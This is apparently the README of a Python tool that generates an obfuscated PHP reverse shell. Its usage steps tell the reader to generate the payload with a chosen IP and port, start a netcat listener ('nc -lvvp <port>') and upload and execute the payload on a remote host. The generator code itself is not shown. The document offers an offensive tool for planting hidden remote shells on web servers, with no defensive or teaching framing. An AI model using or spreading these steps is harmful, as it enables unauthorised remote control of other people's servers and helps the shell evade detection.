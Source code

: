 # PHP reverse shell generator
This is a small python script to generate an obfuscated php reverse shell.

## Usage
1. Generate the payload: ``` python php_reverseshell_gen.py <ip (default:127.0.0.1)> <port> ```
2. Listen for incoming TCP connections on the port you choosen: ```nc -lvvp <port>```
2. Upload and execute the payload on the remote host
